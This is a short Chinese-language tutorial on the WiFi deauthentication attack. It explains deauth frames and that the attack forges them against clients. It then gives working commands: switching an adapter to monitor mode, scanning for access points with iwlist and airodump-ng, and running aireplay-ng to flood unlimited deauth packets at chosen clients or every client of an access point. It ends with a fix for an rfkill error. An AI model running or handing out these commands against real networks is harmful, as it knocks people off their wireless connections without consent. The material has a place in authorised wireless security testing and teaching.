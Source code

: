 # 接触WiFi认证(断开连接)攻击 Deauthentication
## Deauthentication
* ```
    Deauthentication（断开连接）是一种无线网络管理帧（Management Frame）的类型，
    用于通知客户端设备断开与 接入点 的连接。它是IEEE 802.11(数据包类型)标准中定义的一种帧类型。

## Deauthentication Attck 原理
* 发送伪造的 断开连接数据包 给client。
## 前提
* 需要带有监听功能的wifi适配器
* 确认你的无线网卡支持监控模式（monitor mode）和数据包注入（packet injection）。
* ```
    # 关闭wifi
    sudo ifconfig wlan0 down
    # 切换为监听模式
    sudo iw wlan0 set monitor none

    # iwconfig 查看是否为监听模式
    

## aireplay-ng工具
* aireplay-ng 是一款强大的网络攻击工具，用于`无线网络`的安全测试和攻击。
* ```
    # 扫描wifi网络得到BSSID,ESSID
    sudo rfkill unblock wifi
    sudo ifconfig wlan0 up  
    sudo iwlist wlan0 scan | grep -i 'cell\|bssid\|essid'

    # 注意 bssid是唯一标识符(可以是mac)，essid是wifi网络的名称
* ```
    # 扫描附近的无线网络(同上)
    sudo aireplay-ng -9 wlan0
    # 或者
    sudo airodump-ng wlan0
* ```
    # 发起断开连接攻击
    # --deauth 0表示发起无限个包
    # -c 可用逗号分隔开多个mac值，对多个设备进行断开wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> -c <目标客户端MAC地址> wlan0
* ```
    # 断开所有设备wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> wlan0

## 报错
* ```
    # 报错
    ioctl(SIOCSIFFLAGS) failed: Operation not possible due to RF-kill
    # 使用命令
    sudo rfkill unblock wifi
